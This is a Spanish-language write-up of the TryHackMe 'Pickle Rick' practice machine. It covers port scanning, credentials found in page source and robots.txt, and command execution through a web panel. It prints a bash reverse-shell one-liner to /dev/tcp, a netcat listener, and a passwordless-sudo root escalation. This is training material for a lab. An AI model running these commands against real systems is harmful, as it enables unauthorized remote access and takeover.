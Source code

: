 ```yaml
---
title: "Pickle Rick - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRick.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/TryHackMe.png?raw=true"
categories:
  - Writeup
  - TryHackMe
tags:
  - Enumeración
  - Bash
---
```


<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/PickleRick/data/pickleRickTHMpng.png?raw=true">
</p>

La máquina **Pickle Rick** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **facil**  desarrollada por **tryhackme** y publicada **10 de marzo del 2019** con un sistema operativo **Linux**.

# Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.197.4]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22 y 80**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/PortServ.png">
  </p>

  Ya que el escaneo de versiones y servicios no mostró demasiado empezamos a enumerar un poco mas a nivel web así que entre a la pagina ya que cuenta con un servicio **http** por el puerto **80** al entrar pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/web.png">
  </p>

  Curios curioso vemos que esta hablando que necesita conseguir 3 ingredientes los cuales son las **flags** que buscamos y menciona que perdió una contraseña asi que puede ser una pista para nosotros, enumerando el código fuente de la pagina se puede ver a modo comentado lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/pass.png">
  </p>

  Ahora que tenemos un usuario el cual es **R1ckRul3s** podemos pensar que puede existir un login así que si hacemos enumeración web básica antes de emplear un fuzzing a nivel de rutas podemos probar con el recurso **Robots.txt**:


  En este caso el recurso **Robots.txt** si estaba disponible, recordar que el recursos **Robots.txt** es un recursos que nos muestra rutas existentes a nivel de directorios en las paginas web, la mayoría de las paginas lo deshabilitan ya que es una buena practica, en este caso no se deshabilitó y lo podemos usar para encontrar directorios o recursos sin necesidad de hacer fuerza bruta.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/wubba.png">
  </p>

  Vemos que tiene un recurso llamado **"Wubbalubbadubdub"** pero vemos que si entramos por la pagina web a este supuesto subdirectorio nos marca como **error 404** el cual indica que no existe, ya que vimos esto intentamos buscar otras formas de encontrar rutas así que si buscamos algo clásico como **"login.php"** puede y encontremos algo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/log.png">
  </p>

  Excelente ahora que tenemos un login podemos usar la credencial de usuario que encontramos en el código fuente y ya que lo que encontramos en Robots no fue un directorio lo usaremos como contraseña:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/webcmd.png">
  </p>

# Lateral Movement

  Super bien podemos ver que tenemos un panel el cual se llama **"Command Panel"** lo que es más que obvio que es una gran pista, ingreso un **"whoami"** y vemos que nos responde la maquina como el usuario **"www-data"**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/scan/whoami.png">
  </p>

  Así que si vemos que tenemos ejecución de comando pues entonces nos entablaremos una shell.
  Para esto me pondré por el puerto 443 en escucha con el comando ```nc -nlvp 443``` y en la web pondré lo siguiente:

  ```bash
    bash -c 'bash -i >& /dev/tcp/[Your IP]/443 0>&1'
  ```

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/shell1.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/shell2.png">
  </p>

  Como vemos en nuestra consola ya tenemos acceso a la maquina y vemos que el mismo directorio se encuentra la primer **flag** y yendo a la ruta **/home** veo que hay dos usuarios, la carpeta de usuario **rick** se puede encontrar la segunda flag:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag1.png">
  </p>
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag2.png">
  </p>

# Privilege escalation

  Ahora es momento de escalar privilegios para eso vemos si el usuario en el que actualmente estamos tiene algún permiso especial a nivel de **sudo** sin proporcionar contraseña eso lo vemos con el comando ```sudo -l```.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/sudo.png">
  </p>

  Y sorprendentemente tenemos a nivel de **sudo** sin proporcionar contraseña permisos absolutos así que podemos spawnearemos una shell como **root** con el siguiente comando:

  ```bash
  sudo /bin/bash
  ```
  Y como vemos ya somos root en la maquina a si que nos dirigimos al directorio de **root** y podemos visualizar la ultima **flag** y así concluyendo esta maquina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/root.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/PickleRick/instrusion/flag3.png">
  </p>
